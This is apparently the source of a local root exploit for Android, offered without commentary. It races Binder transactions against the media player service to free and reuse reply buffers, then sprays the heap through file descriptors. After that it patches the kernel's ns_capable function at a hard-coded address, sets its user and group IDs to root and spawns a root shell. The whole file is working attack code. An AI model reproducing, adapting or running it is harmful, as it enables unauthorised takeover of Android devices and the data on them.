void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}

void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);
}

void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}

void* bc_transaction(void *arg)
{
	pthread_mutex_lock(&alloc_mutex);
	while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
    	//const uint8_t * replyData = reply.data();
	return arg;
}

void restartWatch()
{
	if (global_parcel_index % 200 == 0)
	{
		stop_watch();
		usleep(100);
		begin_watch();
		usleep(100);
	}
}

void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 

void raceTimes()
{
	for(int i = BAIT - 1; i > 0; i--)
	{
		raceWin(i);
	}
}

void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}

void createAllocThread()
{
	pthread_mutex_init(&alloc_mutex, NULL);
	pthread_cond_init (&alloc_cond, NULL);
	pthread_t id_transaction;
        pthread_create(&id_transaction,NULL, bc_transaction, NULL);
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
	if (fd_guard_heap < 0)
	{
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
	create_test_dir();
	begin_watch();
}

int main()
{
	createAllocThread();
	nice(-20);
	MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
	mediaPlayer = mediaPlayerBase->creatMediaPlayer();
	init_reply_data();
	init_test_dir();
	int max_fds = maximize_fd_limit();
	printf("[+] current pid:%d, max_fd:%d, descript:%lx\n", getpid(), max_fds, get_fack_block(0x80000000));
	put_baits();
	fillOtherCpu();
	raceTimes();
	printf("[+] race finish\n");
	fillFlag = 1;
	stop = 1;
	unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
        kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }
	
	delete mediaPlayerBase;
	return 0;
}
```


